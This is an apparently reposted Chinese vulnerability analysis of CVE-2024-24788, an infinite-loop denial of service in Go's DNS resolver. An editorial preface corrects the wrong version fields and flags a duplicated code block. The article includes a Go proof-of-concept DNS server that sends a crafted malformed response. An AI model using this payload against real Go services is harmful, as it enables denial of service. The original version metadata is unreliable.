## 核对与使用边界

- 明确更正：原 Affect/Fix 的 1.2.22 与实验栈 1.22.1 错位。Go 官方 GO-2024-2824 将 CVE-2024-24788 范围列为 go1.22.0-0 起、go1.22.3 之前，修复为 1.22.3；需 net Lookup 接收到可触发的畸形 DNS 响应，不能据错误版本号覆盖全部 Go。

核对来源：[Go 官方漏洞数据库](https://pkg.go.dev/vuln/GO-2024-2824)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：元数据&lt;1.2.22/修复1.2.22与正文Go1.22.1栈不一致；需纯Go resolver接收恶意DNS响应

代码与实验材料：详细解释AdditionalHeader成功、SkipAdditional错误未处理导致循环，给UDP模拟响应；需自控DNS或能使恶意响应抵达客户端

来源证据范围：华为PSIRT署名杨悦，链接官方CL578375及修改文件

- **事实待核（1）**：核心版本字段明显错位；依据：Affect/Fix写1.2.22，实验堆栈全部为1.22.1；需从CL与官方公告恢复分支固定点，不能自行猜版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：实验及平台结论需保留条件；依据：mac/Linux resolver路径差别与配置有关，不能简单按OS判全部可利用；公共DNS会丢弃畸形响应的限制是本实验观察。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（3）**：代码转录重复与边界检查缺失；依据：跟入unpack下仍重复resourceHeader代码；UDP示例未处理短包/启动竞态，错误后仍可能使用nil连接。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  CVE-2024-24788 Golang DNS解析过程中的DOS漏洞   
原创 杨悦  华为安全应急响应中心   2024-07-04 18:10  
  
**1**  
  
**漏洞元数据**  
  
  
  
**project：**Golang  
  
**Publish Date：**05/08/2024      
  
**Confirm：**https://go-review.googlesource.com/c/go/+/578375  
  
**CVE-ID：**CVE-2024-24788  
  
**Exploits：**见下文      
  
**Affect Version：**< 1.2.22  
  
**Fix Version：**1.2.22  
  
**Fix Commit：**https://go-review.googlesource.com/c/go/+/578375/2/src/net/dnsclient_unix.go  
  
  
  
**2**  
  
**漏洞描述**  
  
  
  
A malformed DNS message in response to a query can cause the Lookup functions to get stuck in an infinite loop.  
  
  
  
**3**  
  
**漏洞分析**  
  
  
  
根据 commit 的记录可以看到，在   
net/dnsclient_unix.go#extractExtendedRCode 之前的循环中，没有处理  
 p.SkipAdditional 可能产生的报错，如果这里报错了，就会循环处理。  
  
  
  
  
**寻找 extractExtendedRCode 调用点**  
  
  
简单搜索一下，可以发现如下的一些调用点。  
  
  
  
写一个简单的 demo  
  
```
func main() {
  r := net.Resolver{PreferGo: true}
  r.LookupNS(context.TODO(), "test.dns.o1hy.com")
  fmt.Println("over")
}
```  
  
  
此时发现已经到了存在漏洞的地方了。  
  
  
  
此时堆栈调用情况如下  
  
```
net.extractExtendedRCode (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dnsclient_unix.go:262)
net.checkHeader (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dnsclient_unix.go:207)
net.(*Resolver).tryOneName (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dnsclient_unix.go:314)
net.(*Resolver).lookup (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dnsclient_unix.go:462)
net.(*Resolver).goLookupNS (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup.go:815)
net.(*Resolver).lookupNS (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup_unix.go:108)
net.(*Resolver).LookupNS (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup.go:610)
main.main (/Users/ymoon/workspace/project/golang/1-CloudMitm/test/test_dns.go:54)
runtime.main (/opt/homebrew/Cellar/go/1.22.1/libexec/src/runtime/proc.go:271)
runtime.goexit (/opt/homebrew/Cellar/go/1.22.1/libexec/src/runtime/asm_arm64.s:1222)
```  
  
  
  
**触发报错**  
  
```
func extractExtendedRCode(p dnsmessage.Parser, hdr dnsmessage.Header) dnsmessage.RCode {
  p.SkipAllAnswers()
  p.SkipAllAuthorities()
  for {
    // 此函数不能报错
    ahdr, err := p.AdditionalHeader()
    if err != nil {
      return hdr.RCode
    }
    // 这里的 type 不能为 TypeOPT
    if ahdr.Type == dnsmessage.TypeOPT {
      return ahdr.ExtendedRCode(hdr.RCode)
    }
    // 此函数需要报错
    p.SkipAdditional()
  }
}
```  
  
  
这里需要重点关注的是   
p.AdditionalHeader 和   
p.SkipAdditional() 。  
SkipAdditional 的底层调用为   
func (p *Parser) skipResource(sec section) error 函数。  
AdditionalHeader 的底层函数为   
func (p *Parser) resourceHeader(sec section) (ResourceHeader, error)。  
  
根据循环逻辑，可以理解为调用完 resourceHeader 后会调用 skipResource，要求为：resourceHeader不能报错，skipResource需要报错。  
  
  
  
通过对比此处代码发现，只有在如下代码处有报错的可能性。  
  
```
// 这里的 if 一直为 true
// p.section 和 sec 均为常量
if p.resHeaderValid && p.section == sec {
  // p.off 不可控
  // 此时如果让 p.resHeaderLength 为一个很大的值，就会让下面的报错触发了。
  newOff := p.off + int(p.resHeaderLength)
  if newOff > len(p.msg) {
    return errResourceLen
  }
  p.off = newOff
  p.resHeaderValid = false
  p.index++
  return nil
}
```  
  
  
  
**控制 p.resHeaderLength**  
  
  
resourceHeader 函数  
  
```
func (p *Parser) resourceHeader(sec section) (ResourceHeader, error) {
  if p.resHeaderValid {
    p.off = p.resHeaderOffset
  }
 
  if err := p.checkAdvance(sec); err != nil {
    return ResourceHeader{}, err
  }
  var hdr ResourceHeader
  // 由此解析 msg 到 hdr 中
  off, err := hdr.unpack(p.msg, p.off)
  if err != nil {
    return ResourceHeader{}, err
  }
  p.resHeaderValid = true
  p.resHeaderOffset = p.off
  p.resHeaderType = hdr.Type
  // 需要让 hdr.Length 为一个大值
  p.resHeaderLength = hdr.Length
  p.off = off
  return hdr, nil
}
```  
  
  
跟入到 unpack 中  
  
```
func (p *Parser) resourceHeader(sec section) (ResourceHeader, error) {
  if p.resHeaderValid {
    p.off = p.resHeaderOffset
  }
 
  if err := p.checkAdvance(sec); err != nil {
    return ResourceHeader{}, err
  }
  var hdr ResourceHeader
  // 由此解析 msg 到 hdr 中
  off, err := hdr.unpack(p.msg, p.off)
  if err != nil {
    return ResourceHeader{}, err
  }
  p.resHeaderValid = true
  p.resHeaderOffset = p.off
  p.resHeaderType = hdr.Type
  // 需要让 hdr.Length 为一个大值
  p.resHeaderLength = hdr.Length
  p.off = off
  return hdr, nil
}
```  
  
  
通过 wireshark 抓包看一下 demo 中的请求数据。  
  
  
  
  
**小结**  
  
  
为了触发循环过程中  
 p.SkipAdditional() 报错需要进行如下操作：  
- 确保   
resourceHeader 正常解析，并且在解析时   
unpack 解析到了 Addtional Data 的长度是一个大值。  
  
- 确保 Addtional Data 的 Type 不是   
message.TypeOPT  
  
  
  
  
  
**4**  
  
**构造利用**  
  
  
  
通过上面的小结可以直接对已有的数据包进行修改，然后重放这个 response 就可以了。  
  
```
func main() {
  go StartUdp()
  r := net.Resolver{PreferGo: true, Dial: func(ctx context.Context, network, address string) (net.Conn, error) {
    udpAddr, err := net.ResolveUDPAddr("udp", "127.0.0.1:1153")
    if err != nil {
      log.Println(err)
      os.Exit(1)
    }
    return net.DialUDP("udp", nil, udpAddr)
  }}
  r.LookupNS(context.TODO(), "test.dns.o1hy.com")
  fmt.Println("over")
}
 
// 接受 DNS 请求
func StartUdp() {
  addr := "0.0.0.0:1153"
  udpAddr, err := net.ResolveUDPAddr("udp", addr)
  if err != nil {
    log.Println(udpAddr)
  }
  conn, err := net.ListenUDP("udp", udpAddr)
  defer conn.Close()
  if err != nil {
    log.Println(err)
  }
  for {
    hanldUdp(conn)
  }
}
 
func hanldUdp(conn *net.UDPConn) {
  var buf [512]byte
  n, addr, _ := conn.ReadFromUDP(buf[0:])
  fmt.Println(buf[:n])
  // 修改这个值为一个比实际 Additional Data 大的值。通常 go 获取到的 Data 都是 0
  hdrLength := "0001"
  // 下面数据中的 hdrType 也已经进行了修改
  data, err := hex.DecodeString("daa581820001000000000001047465737403646e73046f31687903636f6d000002000100003104d000000000" + hdrLength)
  // 修改 dns resp 的 id
  data[0] = buf[0]
  data[1] = buf[1]
  _, err = conn.WriteToUDP(data, addr)
  if err != nil {
    fmt.Println("发送响应失败：", err)
    return
  }
}
```  
  
  
  
  
  
  
  
  
  
  
  
**5**  
  
**影响场景**  
  
  
  
根据   
extractExtendedRCode 的调用点可以看到，  
TXT\NS\MX\SRV… 等会受到影响，进一步分析函数调用发现，对于   
CNAME 等其实也是受影响了。总之都会触发到  
 tryOneName 处。  
  
  
**net.Dial、http.XXX 场景**  
  
  
理论上，应该影响到 net.Dial 这些场景才对。但实际上没有触发。  
  
```
net.(*Resolver).lookupIP (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup_unix.go:63)
net.(*Resolver).lookupIP-fm (未知源:1)
net.init.func1 (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/hook.go:22)
net.(*Resolver).lookupIPAddr.func1 (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup.go:334)
singleflight.(*Group).doCall (/opt/homebrew/Cellar/go/1.22.1/libexec/src/internal/singleflight/singleflight.go:93)
singleflight.(*Group).DoChan.gowrap1 (/opt/homebrew/Cellar/go/1.22.1/libexec/src/internal/singleflight/singleflight.go:86)
runtime.goexit (/opt/homebrew/Cellar/go/1.22.1/libexec/src/runtime/asm_arm64.s:1222)

... 进入到匿名函数中
net.(*Resolver).lookupIPAddr (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup.go:342)
net.(*Resolver).internetAddrList (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/ipsock.go:288)
net.(*Resolver).resolveAddrList (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:283)
net.(*Dialer).DialContext (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:490)
net.(*Dialer).Dial (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:434)
net.Dial (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:401)
main.main (/Users/ymoon/workspace/project/golang/1-CloudMitm/test/test_dns.go:53)
runtime.main (/opt/homebrew/Cellar/go/1.22.1/libexec/src/runtime/proc.go:271)
runtime.goexit (/opt/homebrew/Cellar/go/1.22.1/libexec/src/runtime/asm_arm64.s:1222)
```  
  
  
正常如果走到了下面的   
goLookupIPCNAMEOrder 就会造成 DOS 了。但是居然没有走到这里，而是跑到了  
 cgoLookupIP 中，然而我没有开启 CGO..  
  
  
  
跟入到   
hostLookupOrder 中，看看为什么会返回 order == cgo  
  
  
  
再看看 c.preferCgo，它受到如下的影响。  
  
net/conf.go#func goosPrefersCgo() bool  
  
  
  
最终导致它通过了  
 cgoLookupIP 来解析域名。  
  
  
**漏洞利用**  
  
  
漏洞在利用过程中有一个遗憾，就是需要 DNS 服务器可控：向指定的 DNS 服务器发起查询请求才可以。  
  
如果是通过公共 DNS 服务器层层解析过来后，公共 DNS 服务器会发现数据包中的 length 存在问题，从而丢弃异常的数据。  
  
  
  
笔者目前没有找到突破这里限制。但也有一些思路：  
1. 构造出不会被公共 DNS 服务器丢弃的数据包  
  
1. 找到其他触发 extractExtendedRCode 中报错点。目前我找到的这个点是最明显的…  
  
  
  
  
**linux下的 net.Dial**  
  
  
在上一个小结中发现，在 windows 和 mac 系统下，golang 会使用 cgo 的 dns 解析去解析 URL。但是在 linux 下确有着不一样的表现。  
  
在使用 net.Dial 时，linux 下还是会通过 golang 的 DNS 解析去解析地址，此时就会走到 tryOneName 中。所以只需要针对 net.Dial 去查询的 DNS 返回对应的数据就可以造成 DOS 了，即如下环境  
  
```
package main

import "net"

func main() {
  net.Dial("tcp", "www.baidu.com:80")
}
```  
  
  
  
  
**本公众号发布、转载的文章所涉及的技术、思路、工具仅供学习交流，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！**  
  
**推荐阅读**  
  
[](http://mp.weixin.qq.com/s?__biz=MzI0MTY5NDQyMw==&mid=2247489220&idx=1&sn=aceaf6ab392674653be3a310c1bbb18c&chksm=e906f57cde717c6a639d2e82dd5a0d306dd34aaf9fb2874ddacfcf3468e04eb950c8fa846392&scene=21#wechat_redirect)  
  
[揭秘OAuth 2.0：协议背后的安全隐患](http://mp.weixin.qq.com/s?__biz=MzI0MTY5NDQyMw==&mid=2247517262&idx=1&sn=08e9887e1cdf92b8e9d65ec0f952840b&chksm=e90567f6de72eee08e7d94df307a75e7a4137263f8ade7f9acdd71e23537fd2e516c5bb9371d&scene=21#wechat_redirect)  
  
  
[奖励范围更新！华为乾坤现已加入华为安全奖励计划~](http://mp.weixin.qq.com/s?__biz=MzI0MTY5NDQyMw==&mid=2247510364&idx=1&sn=574992cf7b6da5e4a10e0cc97bfa34d4&chksm=e9054ae4de72c3f22f211c1ffac2b938ea026f55aabfc8a769b0d02dfb40885ab7615c483591&scene=21#wechat_redirect)  
  
  
[华为终端安全奖励计划翻倍活动即日开启，点击踏上您的寻漏征程！](http://mp.weixin.qq.com/s?__biz=MzI0MTY5NDQyMw==&mid=2247510062&idx=1&sn=c06c2a7a94795021248d7c898ec4a7e4&chksm=e9054b96de72c2803fe1b988dbcedeb6d60dcffba35d011564959b13f94feaae6143f65c2af0&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzI0MTY5NDQyMw==&mid=2247484735&idx=1&sn=4b003a3c5c8d711511b40d5f45437d22&chksm=e906e687de716f91b41b97daf76519d78cd81c19b4b4c330bbddf9105e4e5e3f0f74ebfeaffa&scene=21#wechat_redirect)  
  
  
  
点这里  
关注我们，一键三连～  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
